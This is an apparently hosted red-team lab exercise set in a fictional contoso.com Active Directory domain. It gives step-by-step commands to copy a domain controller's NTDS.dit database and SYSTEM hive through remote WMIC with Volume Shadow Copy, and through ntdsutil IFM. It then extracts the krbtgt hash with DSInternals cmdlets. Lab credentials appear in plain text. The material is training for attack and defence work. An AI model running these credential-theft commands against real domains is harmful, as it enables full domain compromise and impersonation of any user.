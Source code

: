 


## Exercise 1 - Exfiltrate the database

We are still working on the same contoso.com environment composed of the following machines:

- **DC01** a domain controller for contoso.com running Windows Server 2016 in the HQ Active Directory site
- **DC02** a domain controller for contoso.com running Windows Server 2022 in the Beijin Active Directory site
- **SRV01** a domain joined server member of the contoso.com domain running Windows Server 2022
- **CLI01** a domain joined client member of the contoso.com domain running Windows 11

In this exercise, **Miss Red** you will use the credentials you previously compromised to exfiltrate the NTDS database with the intent to crack it offline later… The account you have full access to is **CONTOSO\katrina.mendoza.adm**.

### Task 1 - Copy the database using Volume Shadow Copy

1. Log on to **[CLI01](https://labclient.labondemand.com/Instructions/6e093b8a-2f3b-4901-9748-814f5963167c?rc=10#)**. Use the following credentials:
    
    |||
    |---|---|
    |Username|`CONTOSO\red`|
    |Password|`NeverTrustAny1!`|
    
2. Right click on the Start menu ![11menu.png](https://labondemand.blob.core.windows.net/content/lab127864/11menu.png) and click on **Windows Terminal (Admin)**.
    
3. In the **Windows Terminal** window, run the following: `runas /user:CONTOSO\katrina.mendoza.adm cmd.exe` and use the following password `NeverTrustAny1!`.
    
4. A new command prompt should have popped up called **cmd.exe (running as CONTOSO\katrina.mendoza.adm)**. To make it easier to keep track, we'll rename the window and change the color. Run the following in that prompt `title Katrina's console & color 4F`
    
    ![K1.png](https://labondemand.blob.core.windows.net/content/lab127864/K1.png)
    
    📝 What would be the command to type if you wanted the prompt to be with a light blue background and with a green text?
    
    Let's try to copy the database!
    
5. In the red prompt, type the following `copy \\DC01.contoso.com\C$\Windows\NTDS\ntds.dit C:\Users\Public`
    
    📝 What is the full error message?
    
6. In the same prompt, run the following `wmic /node:DC01.contoso.com process call create "cmd /c vssadmin create shadow /for=C: 2>&1 > C:\output.txt"` You will see the following output: ![WMIC1.png](https://labondemand.blob.core.windows.net/content/lab127864/WMIC1.png)
    
    What you have done is asking the Volume Shadow Copy service of Windows to create a snapshot of the drive where the database lies. You can't touch the live file, it's in used. But you can you copy its snapshot version. Its "shadow" version.
    
    Let see where the shadow is…
    
7. Now run the following `type \\DC01.contoso.com\C$\output.txt` and note where the shadow copy of the C drive is located. ![Shadow1.png](https://labondemand.blob.core.windows.net/content/lab127864/Shadow1.png)
    
8. Still in the red prompt, run `wmic /node:DC01 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ 2>&1 > C:\output.txt"`. This will copy the shadow copy to the root level of the C drive.
    
9. Now run the following to check if the copy did work `type \\DC01.contoso.com\C$\output.txt`.
    
10. And finally, in the prompt, type the following `copy \\DC01.contoso.com\C$\ntds.dit C:\Users\Public`
    
    You now have a copy of the NTDS.dit database. Well, that's not enough. You will need the keys to decrypt the secrets… But eh, not that hard, they are stored on the same machine! There are warmly waiting for you in the SYSTEM hive. Let's get it too.
    
11. In the red prompt, run `wmic /node:DC01 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\SYSTEM.hive 2>&1 > C:\output.txt"`.
    
12. And get it back locally by running `copy \\DC01.contoso.com\C$\SYSTEM.hive C:\Users\Public`
    
    Now you can use other tools to read those files and extract all the juicy keys they contain.
    

### Task 2 - Copy the database using IFM [optional]

Note that what you've done with VSS is more of proof of concept than an practical way of doing this. When we copy a database in use from the snapshot, the database is not properly clean (neither is the SYSTEM hive). A smarter way would be to invoke the IFM feature remotely and copy the output of the IFM. Well, let's do that then!

1. Still in the red prompt, run `wmic /node:DC01 process call create "ntdsutil \"activate instance ntds\" ifm \"create full C:\IFM\" quit quit 2>&1 > C:\output.txt"`
    
    This create an IFM copy in the C:\IFM folder. It can take few minutes to be generated.
    
2. Then copy the stuff locally in a new folder. Still in the red prompt, run the following: `mkdir C:\Users\Public\IFM` and copy the IFM from the DC by running `copy "\\DC01.contoso.com\C$\IFM\Active Directory" C:\Users\Public\IFM` then `copy \\DC01.contoso.com\C$\IFM\Registry C:\Users\Public\IFM`
    
3. Switch to the **Terminal console**, the one running with your account (not Katrina's). In the terminal, change the current directly with the command `Set-Location C:\Users\Public\IFM`
    
4. Let see if you can read the database you have. Run the following `Get-ADDBDomainController -DatabasePath NTDS.dit`
    
    Good! It seems that this is usable. Let's try to read a user account.
    
    > This PowerSHell cmdLet is a part of the DSInternal module.
    
    📝 Is the DS Internal PowerShell module available by default on Windows?
    
5. From the **Terminal console**, run the following: `Get-ADDBAccount -SamAccountName krbtgt -DatabasePath ntds.dit`
    
    It seems that we can read everything but the secrets… Oh of course, you almost forgot. There are encrypted. So first we get the key and then we extract the secret of the KrbTgt account.
    
6. Still in the **Terminal console**, run the following: `$syskey = Get-BootKey -SystemHiveFilePath SYSTEM` then `Get-ADDBAccount -SamAccountName krbtgt -DatabasePath ntds.dit -BootKey $syskey`
    
    📝 What are the last four characters of the NTHash of the krbtgt account?
    
    Now that you have the KrbTgt hash in your possession, well you could impersonate whoever you want!
    


